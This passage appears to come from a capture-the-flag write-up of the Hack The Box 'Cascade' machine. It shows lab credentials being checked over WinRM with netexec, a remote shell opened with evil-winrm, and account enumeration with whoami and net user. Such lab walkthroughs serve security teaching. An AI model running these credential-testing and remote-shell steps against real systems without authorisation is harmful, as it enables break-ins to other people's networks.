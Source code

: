 `netexec winrm 10.10.10.182 -u 'arksvc' -p 'w3lc0meFr31nd'`:
```
WINRM       10.10.10.182    5985   CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 (name:CASC-DC1) (domain:cascade.local)
WINRM       10.10.10.182    5985   CASC-DC1         [+] cascade.local\arksvc:w3lc0meFr31nd (Pwn3d!)🚀
```

`evil-winrm -i 10.10.10.182 -u 'arksvc' -p 'w3lc0meFr31nd'`:
```
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\arksvc\Documents>
```
🐚

![Victim: arksvc](https://custom-icon-badges.demolab.com/badge/Victim-arksvc-64b5f6?logo=windows11&logoColor=white)

`whoami`:
```
cascade\arksvc
```

`net.exe user arksvc`:
```
User name                    arksvc
Full Name                    ArkSvc
Comment
User's comment
Country code                 000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/9/2020 4:18:20 PM
Password expires             Never
Password changeable          1/9/2020 4:18:20 PM
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   1/29/2020 9:05:40 PM

Logon hours allowed          All

Local Group Memberships      *AD Recycle Bin🔍      *IT
                             *Remote Management Use
Global Group memberships     *Domain Users
The command completed successfully.
```
